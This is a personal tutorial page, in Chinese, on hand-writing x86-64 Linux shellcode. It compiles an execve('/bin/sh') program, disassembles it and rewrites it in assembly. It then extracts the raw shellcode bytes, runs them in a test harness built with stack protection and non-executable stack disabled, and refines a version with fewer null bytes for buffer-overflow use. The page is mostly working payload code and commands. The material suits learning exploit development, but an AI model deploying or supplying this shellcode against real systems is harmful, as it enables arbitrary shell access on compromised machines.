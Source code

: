 ```yaml
---
layout: default
title: shellcode_notes
categories:
- C++
tags:
- C++
---
```

//Description: how to write shellcode. 搜索到的基本上是x86的，少数x64的在自己的机器上也不管用，只有根据自己机器的实际情况自行写一遍。

//Create Date: 2020-04-15 15:43:04

//Author: channy

# shellcode_notes

## 1. 写源码

```c++
//shellcode.c
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
	char *buf[2];
	buf[0] = "/bin/sh";
	buf[1] = NULL;
        execve(buf[0], buf, 0);
        return 0;
}
```

## 2. 反编译

```
gcc -o shellcode shellcode.c 
objdump -d shellcode > shellcode.s
```

## 3. 关注反编译中main部分

```
00000000000006aa <main>:
 6aa:   55                      push   %rbp
 6ab:   48 89 e5                mov    %rsp,%rbp
 6ae:   48 83 ec 30             sub    $0x30,%rsp
 6b2:   89 7d dc                mov    %edi,-0x24(%rbp)
 6b5:   48 89 75 d0             mov    %rsi,-0x30(%rbp)
 6b9:   64 48 8b 04 25 28 00    mov    %fs:0x28,%rax
 6c0:   00 00  
 6c2:   48 89 45 f8             mov    %rax,-0x8(%rbp)
 6c6:   31 c0                   xor    %eax,%eax
 6c8:   48 8d 05 c5 00 00 00    lea    0xc5(%rip),%rax        # 794 <_IO_stdin_used+0x4>
 6cf:   48 89 45 e0             mov    %rax,-0x20(%rbp)
 6d3:   48 c7 45 e8 00 00 00    movq   $0x0,-0x18(%rbp)
 6da:   00  
 6db:   48 8b 45 e0             mov    -0x20(%rbp),%rax
 6df:   48 8d 4d e0             lea    -0x20(%rbp),%rcx
 6e3:   ba 00 00 00 00          mov    $0x0,%edx
 6e8:   48 89 ce                mov    %rcx,%rsi
 6eb:   48 89 c7                mov    %rax,%rdi
 6ee:   e8 8d fe ff ff          callq  580 <execve@plt>
 6f3:   b8 00 00 00 00          mov    $0x0,%eax
 6f8:   48 8b 55 f8             mov    -0x8(%rbp),%rdx
 6fc:   64 48 33 14 25 28 00    xor    %fs:0x28,%rdx
 703:   00 00  
 705:   74 05                   je     70c <main+0x62>
 707:   e8 64 fe ff ff          callq  570 <__stack_chk_fail@plt>
 70c:   c9                      leaveq 
 70d:   c3                      retq   
 70e:   66 90                   xchg   %ax,%ax
```

从这步开始就和搜索到的大部分文章不一样了

## 4. 重写汇编

```
//scode.s
.section .text
.global _start
_start:
jmp c1
pp: popq %rcx #将字符串"/bin/sh"的地址存入rcx（通用寄存器），这里可以选择其它寄存器。
pushq %rbp #接下来的三条指令是建立一个新的栈空间
mov %rsp, %rbp
subq $0x30, %rsp
movq %rcx, -0x20(%rbp) #将字符串复制到栈
movq $0x0,-0x18(%rbp) #创建调用exec时的参数name[1]，将它置0.
mov $0, %edx
lea -0x20(%rbp), %rsi #这是execve第二个参数，它需要**类型，所以用lea传送地址给rsi。
mov -0x20(%rbp), %rdi #mov将字符串传给rdi，这是execve第一个参数。
mov $59, %rax #这个59是execve的系统调用号，在/usr/include/asm/unistd_64.h里可以查询到.
syscall #系统调用， 这个可以取代 int 0x80
c1: call pp

.ascii "/bin/sh"
```

然而自己的机器上include里面并没有asm/unistd_64.h文件
```
// /usr/include/asm-generic/unistd.h
607 #define __NR_execve 221
608 __SC_COMP(__NR_execve, sys_execve, compat_sys_execve)
```

```
// /usr/include/x86_64-linux-gnu/asm/unistd_64.h
63 #define __NR_execve 59
```

[reference](https://www.jianshu.com/p/5d1b1eafca21)

## 5. 编译和连接

```
as -o scode.o scode.s
ld -o scode scode.o
```

objdump反汇编scode，提取shellcode

```
for i in $(objdump -d scode | grep "^ " |cut -f2); do echo -n '\x'$i; done;
```

最后得到shellcode

```
\xeb\x2b\x59\x55\x48\x89\xe5\x48\x83\xec\x30\x48\x89\x4d\xe0\x48\xc7\x45\xe8\x00\x00\x00\x00\xba\x00\x00\x00\x00\x48\x8d\x75\xe0\x48\x8b\x7d\xe0\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05\xe8\xd0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

## 6. 验证

```c++
#include <stdio.h>

unsigned char code[] = "\xeb\x2b\x59\x55\x48\x89\xe5\x48\x83\xec\x30\x48\x89\x4d\xe0\x48\xc7\x45\xe8\x00\x00\x00\x00\xba\x00\x00\x00\x00\x48\x8d\x75\xe0\x48\x8b\x7d\xe0\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05\xe8\xd0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";

void main(int argc, char *argv[])
{ 
    long *ret; 
    ret = (long *)&ret + 2;  
    (*ret) = (long)code;
}
```

```
gcc shellcodeTest.c -o shellcodeTest -fno-stack-protector -z execstack
```

能够正常运行
```
ity$ ./shellcodeTest 
$ whoami
channy
```

## 7. 进阶

上面一段shellcode并不适用于缓冲区溢出，因为中间好多\x00啦～

> 还有一个注意的是0x20，这个在ascii里代表的是空，也会造成输入中断，输入函数返回。

```
.section .text
.global _start
_start:
jmp c1
pp: popq %rcx 
pushq %rbp 
mov %rsp, %rbp
subq $0x30, %rsp
movq %rcx, -0x20(%rbp) 
xorq %rax, %rax
movq %rax,-0x18(%rbp)
movq %rax, %rdx
lea -0x20(%rbp), %rsi
mov -0x20(%rbp), %rdi
mov $59, %rax
syscall 
c1: call pp

.ascii "/bin/sh"
```

```
\xeb\x28\x59\x55\x48\x89\xe5\x48\x83\xec\x30\x48\x89\x4d\xe0\x48\x31\xc0\x48\x89\x45\xe8\x48\x89\xc2\x48\x8d\x75\xe0\x48\x8b\x7d\xe0\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05\xe8\xd3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

//0: disable, 1: enable, 2: default
```
sysctl -w kernel.randomize_va_space=2
```

[back](/)

